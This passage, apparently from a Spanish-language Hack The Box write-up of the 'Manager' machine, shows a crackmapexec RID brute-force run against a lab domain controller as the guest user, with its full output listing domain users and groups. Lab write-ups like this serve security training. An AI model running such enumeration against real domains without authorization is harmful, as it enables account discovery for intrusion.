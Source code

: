 Esto también lo podemos aplicar con **crackmapexec**, usando al mismo usuario **guest** y el parámetro `--rid-brute`:
```bash
crackmapexec smb 10.10.11.236 -u "guest" -p "" --rid-brute
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\guest: 
SMB         10.10.11.236    445    DC01             [+] Brute forcing RIDs
SMB         10.10.11.236    445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.10.11.236    445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.10.11.236    445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.10.11.236    445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.10.11.236    445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.236    445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.10.11.236    445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.236    445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.10.11.236    445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.10.11.236    445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.10.11.236    445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.10.11.236    445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.10.11.236    445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.10.11.236    445    DC01             1119: MANAGER\Operator (SidTypeUser)
```
Hemos aplicado este ataque con exito.

<h2 id="netexec">Probando Credenciales Válidas con netexec</h2>
